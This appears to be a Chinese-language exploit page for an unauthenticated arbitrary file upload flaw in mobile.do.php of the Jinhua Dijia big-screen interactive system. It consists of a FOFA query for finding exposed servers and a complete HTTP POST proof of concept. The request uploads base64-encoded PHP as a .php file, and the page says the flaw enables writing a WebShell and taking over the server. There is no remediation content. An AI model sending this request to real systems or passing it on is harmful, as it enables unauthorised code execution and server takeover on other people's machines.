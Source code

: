 # 金华迪加现场大屏互动系统mobile.do.php任意文件上传漏洞

金华迪加 现场大屏互动系统 mobile.do.php 存在任意文件上传漏洞，未经身份验证远程攻击者可利用该漏洞代码执行，写入WebShell,进一步控制服务器权限。

## fofa

```javascript
body="/wall/themes/meepo/assets/images/defaultbg.jpg" || title="现场活动大屏幕系统"
```

## poc

```javascript
POST /mobile/mobile.do.php?action=msg_uploadimg HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Connection: close

filetype=php&imgbase64=PD9waHAgcGhwaW5mbygpO3VubGluayhfX0ZJTEVfXyk7Pz4=
```

![image-20241101195240598](https://sydgz2-1310358933.cos.ap-guangzhou.myqcloud.com/pic/202411011952654.png)